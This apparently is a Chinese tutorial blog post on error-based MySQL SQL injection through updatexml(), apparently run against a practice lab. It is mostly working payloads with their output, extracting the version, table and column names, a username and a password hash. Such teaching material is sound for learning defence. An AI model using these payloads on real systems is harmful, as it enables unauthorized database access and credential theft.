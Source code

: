 ```yaml
---
layout: post
title: "基于函数报错的信息获取"
date:   2024-9-29
tags: [SQL注入, CTF, WEB]
comments: true
author: MK-KM1542
---
```


## 技巧思路

在 MYSQL 中使用一些指定的函数来**制造报错**，从而从报错信息中**获取设定的信息**  
**select**/**insert**/**update**/**delete**都可以使用报错来获取信息

## 背景条件

后台**没有屏蔽**数据库报错信息，在语法发生错误时会**输出在前端**

## 三个常用的用来报错的函数

1. **updatexml()**:  
   函数是 MYSQL 对 XML 文档数据进行查询和修改的 XPATH 函数
2. **extractvalue()**:  
   函数也是 MYSQL 对 XML 文档数据进行查询的 XPATH 函数
3. **floor()**:  
   MYSQL 中用来取整的函数。

## 以 updatexml()为例

### 基本原理

- Updatexml()函数作用:改变(查找并替换)XML 文档中符合条件的节点的值
- 语法:UPDATEXML(xml_document, XPathstring, new_value)
- 第一个参数:fiedname 是 String 格式，为表中的字段名
- 第二个参数:XPathstring(Xpath 格式的字符串)。
- 第三个参数:new_value，String 格式，替换查找到的符合条件的
- Xpath 定位必须是有效的，否则则会发生错误
- **XPathstring 的内容如果是一个表达式，那么会先执行表达式，再把结果作为报错的内容输出**

### Select 下报错的利用演示

以字符型注入为例，查看数据库的版本 version

```sql
# payload:
kobe' and updatexml(1,version(),0)#
```

输入 payload,返回信息：

```sql
XPATH syntax error: '.26'
```

数据库的版本应该是 5.7.26,没有输出完整的版本号
需要进行一点小小的处理

```sql
# payload:
kobe' and updatexml(1,concat(0x7e,version()),0)#
```

输入 payload,返回信息：

```sql
XPATH syntax error: '~5.7.26'
```

这次输出了完整的版本号
对比两次 payload，多了一个 concat 函数
**concat**函数的作用：将多个字符串拼接成一个字符串，并**作为结果返回**
在 ASCII 编码中，0x7e 代表波浪号`~`字符
0x7e 在这里的作用是与版本号拼接，从而**使用 concat 函数输出完整的版本号**，所以其他的字符都是可以的（比如 0x7d 是`}`字符，可以去看看 ascii 编码表）
在以上 payload 中，`version()`作为一个表达式被执行并且输出了结果，因此我们可以尝试一下其他的表达式，比如：

```sql
# payload:
kobe' and updatexml(1,concat(0x7e,database()),0)#
# 返回数据库名：XPATH syntax error: '~root'
kobe' and updatexml(1,concat(0x7e,user()),0)#
# 返回结果用户名：XPATH syntax error: '~root@localhost'
```

或者我们可以再进一步尝试：

```sql
# payload:
kobe' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='root')),0)#
```

输入 payload,返回信息：

```sql
Subquery returns more than 1 row
```

```sql
# 执行的表达式：
select table_name from information_schema.tables where table_schema='root'
```

这个表达式是查询 root 数据库中的所有表名，但是报错信息表示只能输出一条数据，因此我们需要修改一下表达式：

```sql
# payload:
kobe' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='root' limit 0,1)),0)#
```

输入 payload,返回信息：

```sql
XPATH syntax error: '~httpinfo'
```

我们在 payload 中添加了`limit 0,1`,表示从 0 位置开始取一条数据，因此输出了第一个表名`httpinfo`
改成`limit 1,1`，输出第二个表名，以此类推，可以输出所有表名
OK 了老铁们，到这里就很清楚了，参考**通过information_schema拿下数据库案例演示.md**，我们**替换表达式就能得到想要的数据了**

## 进一步演示

```sql
# 获取表名
kobe' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='root' limit 0,1)),0)#
# 返回结果：XPATH syntax error: '~httpinfo'

```

```sql
# 获取列名
kobe' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users' limit 0,1)),0)#
# 返回结果：XPATH syntax error: '~USER'
```

```sql
# 获取数据
kobe' and updatexml(1,concat(0x7e,(select username from users limit 0,1)),0)#
# 返回结果：XPATH syntax error: '~admin'
kobe' and updatexml(1,concat(0x7e,(select password from users where username='admin' limit 0,1)),0)#
# 返回结果：XPATH syntax error: '~e10adc3949ba59abbe56e057f20f883'
```
